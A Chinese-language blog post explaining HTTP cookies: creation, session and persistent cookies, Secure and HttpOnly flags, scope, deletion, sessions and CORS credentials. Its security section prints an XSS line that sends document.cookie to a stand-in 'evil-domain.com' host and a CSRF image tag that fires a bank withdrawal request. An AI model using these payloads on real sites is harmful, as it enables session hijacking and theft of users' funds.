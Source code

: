 ```yaml
---
title: HTTP Cookies
date: 2016-08-23 09:48:54
updated: 2018-06-28 18:47:19
tags: 
- http
- cookie
---
```

## HTTP Cookies

### 简介
HTTP Cookie（也叫Web cookie或者浏览器Cookie）是服务器发送到用户浏览器并保存在浏览器上的一块数据，它会在浏览器下一次发起请求时被携带并发送到服务器上。

### 创建 Cookie

服务器使用Set-Cookie响应头部向用户代理（一般指浏览器）发送Cookie信息。一个简单的Cookie可能像这样：

```
Set-Cookie: <cookie名称>=<cookie值>
```

设置完 Cookie 后对该服务器发起的每一次新的请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头发送给服务器。

#### 会话期Cookie
会话期 Cookie 是最简单的 Cookie：浏览器关闭之后它会被自动删除，也就是它仅在会话期间有效。会话期 Cookie *不需要指定过期时间（Expires）或者有效期（Max-Age）* 。需注意的是，有些浏览器提供了会话恢复的功能，这种情况下即便关闭了浏览器会话期 Cookie 也会被保存，就好像浏览器从来没有关闭一样。

#### 持久Cookie

和关闭浏览器便失效不同，持久Cookie可以指定一个特定的过期时间（Expires）或者有效期（Max-Age）。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 安全和HttpOnly类型Cookie

只有在使用 SLL 和 HTTPS 协议向服务器发起请求时，才能确保 Cookie 被安全地发送到服务器。HttpOnly 标志并没有给你提供额外的加密或者安全性上的能力，当整个机器暴露在不安全的环境时，切记绝不能通过 HTTP Cookie 存储、传输机密或者敏感信息。

HTTP-only 类型的 Cookie 不能使用 Javascript 通过 `Document.cookie` 属性来访问，从而能够在一定程度上阻止域脚本攻击（XSS）。当你不需要在 JavaScript 代码中访问你的 Cookie 时，可以将该 Cookie 设置成 HttpOnly 类型。特别的，当你的 Cookie 仅仅是用于定义会话的情况下，最好给它设置一下 HttpOnly 标志。

只有当一个请求通过 SSL 或 HTTPS 创建时，包含 Secure 选项的 cookie 才能被发送至服务器。这种 Cookie 的内容具有很高的价值，如果以纯文本形式传递很有可能被篡改。事实上，机密且敏感的信息绝不应该在 Cookie 中存储或传输，因为 Cookie 的整个机制原本都是不安全的。默认情况下，在 HTTPS 链接上传输的 Cookie 都会被自动添加上 Secure 选项。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

#### Cookie的作用域

Domain 和 Path 指令定义了 Cookie 的作用域，即需要发送 Cookie 的 URL 集合。

Domain 指令规定了需要发送 Cookie 的主机名。如果没有指定，默认为当前的文档地址上的主机名（但是不包含子域名）。如果指定了 Domain，则一般包含子域名。

如果设置了 Domain=mozilla.org ，则 Cookie 包含在子域名中（如developer.mozilla.org）。不能跨域上设置一个 Cookie，因为这会产生安全问题。不合法的 Domain 选择将直接被忽略。

Path 指令表明需要发送 Cookie 的URL路径。字符%x2F (即"/")用做文件夹分隔符，子文件夹也会被匹配到。

如设置Path=/docs，则下面这些地址都将匹配到:

"/docs",
"/docs/Web/",
"/docs/Web/HTTP"

### 清理 Cookie`

```
Set-Cookie: <cookie名称>=; path=<Path>; expires=Thu, 01 Jan 1970 00:00:00 GMT
```


### 安全

#### 会话劫持和XSS
在Web应用中，Cookie 常常用来标记用户和会话授权。因此，如果窃取了 Web 应用的 Cookie，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学进行攻击和利用应用程序的漏洞进行XSS攻击。
``` javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对 Cookie 进行访问而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的 CSRF 例子。在这个情况下，有一张并不真实存在的图片（可能是在不安全聊天室或论坛），它实际上是向你的银行服务器发送了提现请求：
```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片（**本质上不存在这张图片，只是为了利用浏览器加载图片去发送请求。不是 Ajax 请求，浏览器不会因为跨域而拦截。**）的HTML页面时，如果 **你已经登录了你的银行帐号并且还有效**（而且没有其它验证步骤），你的银行里的钱可能会被自动转走。


### Cookie VS Session

Cookie 和 Session 本身没什么联系。Cookie 是放置到客户端的，Session 是放置在服务器端的。服务器端的 Session 其实就是一个 K-V 形式的键值对，Key 就是 SessionID。很多时候我们就把 SessionID 放置到 Cookie 中，利用 **浏览器下一次发起请求时会携带 Cookie 并发送到服务器上** 的便利来跟踪标识一个用户。服务器端从 Cookie 中拿到 SessionID，用 SessionID 拿到 Session 的信息。很多情况下我们会在浏览器地址栏见到类似`?jsessionid=xxxxx`的URL，这种情况就是把 SessionID 放置到 URL 中来携带，在客户端不支持 Cookie 的情况下使用。之所以我们一看到 Session 就会提到 Cookie 是因为 Cookie 携带 SessionID 十分便利罢了。


### 注意事项及常见问题

### 跨域携带 Cookie 问题

CORS 请求默认不发送 Cookie 和 HTTP 认证信息。如果要把 Cookie 发到服务器，一方面要服务器同意，指定 Access-Control-Allow-Credentials 字段
```
Access-Control-Allow-Credentials: true
```

另一方面，开发者必须在AJAX请求中打开withCredentials属性。
```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```

否则，即使服务器同意发送 Cookie，浏览器也不会发送。或者，服务器要求设置 Cookie，浏览器也不会处理。
但是，如果省略 withCredentials 设置，有的浏览器还是会一起发送Cookie。这时，可以显式关闭 withCredentials。
```
xhr.withCredentials = false;
```

需要注意的是，如果要发送 Cookie，Access-Control-Allow-Origin 就不能设为星号，必须指定明确的、与请求网页一致的域名。同时，Cookie依然遵循同源政策，只有用服务器域名设置的 Cookie 才会上传，其他域名的 Cookie 并不会上传，且（跨源）原网页代码中的 `document.cookie` 也无法读取服务器域名下的 Cookie。


### 参考
- [HTTP cookies](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies) 
- [HTTP cookies 详解](http://bubkoo.com/2014/04/21/http-cookies-explained/) 
- [CORS](http://www.ruanyifeng.com/blog/2016/04/cors.html)
